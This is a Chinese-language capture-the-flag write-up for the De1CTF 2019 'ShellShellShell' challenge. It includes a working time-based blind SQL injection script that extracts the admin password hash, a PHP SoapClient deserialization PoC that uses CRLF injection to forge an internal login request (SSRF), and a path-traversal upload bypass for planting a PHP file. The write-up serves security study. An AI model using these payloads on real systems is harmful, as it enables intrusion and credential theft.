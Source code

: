 ```yaml
---
title: '[De1CTF 2019]ShellShellShell'
author: Troy3e
avatar: >-
  https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/QQ%E5%9B%BE%E7%89%8720210308190505.jpg
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-03-11 16:38:01
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1135807.jpg
---
```

好久没更新了，今天开始恢复学习模式。
本学期目标：两天一个BuuWP，多打比赛，加入一个大佬战队，剩下的时间都学习渗透。

这题知识量巨大，看了很多wp，首先先自动审一下源码：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210310214904.png)

一个个看，首先看config.php相应位置代码：


    public function insert($columns,$table,$values){

        $column = $this->get_column($columns);
        $value = '('.preg_replace('/`([^`,]+)`/','\'${1}\'',$this->get_column($values)).')';
        $nid =
        $sql = 'insert into '.$table.'('.$column.') values '.$value;
        $result = $this->conn->query($sql);

        return $result;
    }

会把反引号替换为单引号，为sql注入创建了条件。

接下来找到用到insert函数的地方：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210310225646.png)

可以看到$_POST['signature']未经过滤就被直接插入。

又由于上面insert函数将所有反引号转为单引号，直接盲注：

    import requests
    
    url="http://a5c4dff4-3e02-4263-8d4a-51aa1ae72651.node3.buuoj.cn/index.php?action=publish"
    cookie = {"PHPSESSID":"3dk4p3o188kgg1vhvds81qafn2"}

    k="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    flag=""

    for i in range(50):
        for j in k:
            j = ord(j)
            data={
                'mood':'0',
                'signature':'1`,if(ascii(substr((select password from ctf_users where username=`admin`),{},1))={},sleep(3),0))#'.format(i,j)
                }
            try:
                r=requests.post(url,data=data,cookies=cookie,timeout=(2,2))
            except:
                flag+=chr(j)
                print(flag)
                break

跑出来密码的md5为：c991707fdf339958eded91331fb11ba0
解密得jaivypassword。

但是登录却提示ip限制。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311123409.png)

从源码中看到注册需要验证ip

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311124123.png)

跟进get_ip函数

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311124051.png)

REMOTEADDR无法直接伪造，所以寻找ssrf的点。
到这就不知道咋做了，照理说soapclient反序列化配合ssrf以前是遇到过的，不过还是没想出来。

?action=phpinfo（源码中看到的）看到php开启了soap拓展

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311124745.png)

PHP 中，soap扩展可以用来提供和使用 Web Services
soapclient类则是用来创建soap数据报文，与wsdl接口进行交互，它有几个内置魔术方法

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311125817.png)

showmess类里有一个反序列化

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311131339.png)

他看上去会因为sql注入引发反序列化漏洞。
所以我们可以注入

    a`, {serialize object});#

到库中
然后他会在你访问
index.php?action=index 的时候触发

接下来看soapclient类
这个类的用法如下

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311132909.png)

通过传入两个参数，第一个是 $url, 既目标url, 第二个参数是一个数组，里面是soap请求的一些参数和属性。

我们来查阅一下第二个参数(options)的相关介绍：
我们可以看到这个类传入的第一个参数为 $wsdl

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311133539.png)

控制是否是wsdl模式，如果为NULL，就是非wsdl模式.
如果是非wsdl模式，反序列化的时候就会对options中的url进行远程soap请求，

我们可以在 PHP 源码中看到

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311133811.png)

如果把 \x0d\x0a 注入到 SOAPAction , 这个POST请求的部分header会被控制(CRLF)
但是我们不能控制 Content-Type,就不能控制POST的数据，所以就不能登录admin。

继续阅读php源码，我们发现user_agent 选项同样可以造成 CRLF

在header里 User-Agent 在 Content-Type 前面, 我们我们可以很轻松的控制整个POST报文

可以生成任意POST报文的POC：

    <?php
    $target = 'http://127.0.0.1/index.php?action=login';
    $post_string = 'username=admin&password=jaivypassword&code=1278816';
    $headers = array(
        'X-Forwarded-For: 127.0.0.1',
        'Cookie: PHPSESSID=46ek6rejdtj36sm2sk2psu1i02'
        );
    $b = new SoapClient(null,array('location' => $target,'user_agent'=>'wupco^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

    $aaa = serialize($b);
    $aaa = str_replace('^^',"\r\n",$aaa);
    $aaa = str_replace('&','&',$aaa);
    echo bin2hex($aaa);
    ?>

这里注意target那里是127.0.0.1(因为是ssrf)，一开始没注意直接用的url，花了两小时踩坑。

成功进去之后是一个上传

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311155056.png)

ifconfig查看ip

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311161429.png)

端口80开放
把源码下下来

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311161504.png)

访问

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311161631.png)

第一层数组来绕过，第二层随机文件名用路径穿越绕过。
构造file[1]=aaa&file[0]=php/../troy3e.php
postman构造传入
这里懒得构造了，因为已经被这题折磨了一下午了，拿个现成的upload：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210311162645.png)

做了一下午，脑子都晕了QWQ

参考链接：
https://blog.csdn.net/qq_43756333/article/details/107386403
https://my.oschina.net/u/4410805/blog/3391684
https://blog.csdn.net/a3320315/article/details/104088080
https://www.freesion.com/article/5426702156/
https://xz.aliyun.com/t/2148#toc-0